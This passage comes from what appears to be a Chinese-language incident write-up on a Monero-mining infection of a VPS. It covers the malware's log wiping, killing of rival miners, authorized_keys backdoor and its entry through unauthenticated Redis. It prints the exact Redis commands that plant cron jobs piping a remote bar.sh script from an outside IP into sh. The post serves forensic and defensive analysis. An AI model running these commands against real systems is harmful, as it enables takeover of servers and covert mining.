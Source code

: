 * 清空 /var/log/wtmp
* 清空 /var/log/secure
* 清空历史执行命令
* 修改包含 linuxsyn、clay、udevs、psql、smartd、redisscan.sh、ebscan.sh、gpg-agent、gpg-agentd、kethelper 文件的权限为 0644
* 清空 /tmp/unixinfect/imworking 文件

CLEAN 函数也是一个毁灭性的函数。首先会修改 /etc/security/limits.conf 和 /etc/sysctl.conf 系统配置文件。加入如下配置：

``` bash
* soft memlock 262144
* hard memlock 262144
vm.nr_hugepages = 256
```

接下来删除 RMLIST 列表的文件，kill 掉 KILIST 列表的进程。KILIST 里有些什么呢？也是挖矿的钱包地址或者相关的进程。这位哥们只想自己获利，不关心兄弟的死活，呵呵。接下来执行疯狂的 kill，也是挖矿钱包地址或者相关的进程，不过这个列表就有点多了，在此不赘述。

我们继续分析。INIT 函数修改 nr_hugepages 内核配置，ITABLE 函数删除掉 6379 端口相关的防火墙，允许本地连接，接下来 CRON 函数跟上文所述功能一致，在此不赘述。

最后做了脚本优化，如果发现没有 /tmp/crondb 和 /tmp/c.j 文件，继续下载。如果你的系统 GLIBC 版本不满足它的需求，还会帮你升级，加载到 LD_LIBRARY_PATH。接着将他自己的 key 写入到 authorized_keys 文件，这样它可以免密登陆，方便后续的操作。最后再清空 /var/log/wtmp、清空 /var/log/secure、清空历史执行命令。

由于 Monero (XMR) 不可追溯性，读者无法通过钱包地址追溯交易记录，也就是说我们无从得知黑客从中获益多少。

## 0x02 服务器被黑分析
***

分析到这里，我们对挖矿过程过程比较清楚了。但问题是，服务器为什么会被黑呢？

从刚才的分析得知，该脚本会处理 6379 端口，6379 端口是我们熟知的 Redis 端口。Redis 作者 antirez 很早之前写过一篇文章：[A few things about Redis security](http://antirez.com/news/96)，文中提到未授权访问漏洞，具体的漏洞可以参考这篇文章。

由于 VPS 服务器 Redis 端口没有添加密码，防火墙虽然开启，但防火墙开放权限过大，导致黑客趁机攻击。具体操作流程是怎么样的呢？

第一，扫描到该 VPS IP 存在 6379 Redis 端口，尝试无密码登陆。

第二，依次执行如下命令。

``` bash
set key1 "\n*/5 * * * * curl -fsSL http://84.73.251.157:81/bar.sh | sh\n"
set key2 "\n*/5 * * * * wget -q -O- http://84.73.251.157:81/bar.sh | sh\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

第三，Linux 服务器自动加载到 crontab，然后定时任务执行 bar.sh 脚本，服务器被动用于挖矿。

由于 Redis 开启了 AOF，我们利用如下的脚本将 AOF 回溯 [1]，可以确认写入 KEY 的键值对。

``` python
#!/usr/bin/env python

""" A redis appendonly file parser
"""

import logging
import hiredis
import sys

if len(sys.argv) != 2:
   print sys.argv[0], 'aof_file'
   sys.exit()
file = open(sys.argv[1])
line = file.readline()
cur_request = line
while line:
    req_reader = hiredis.Reader()
    req_reader.setmaxbuf(0)
```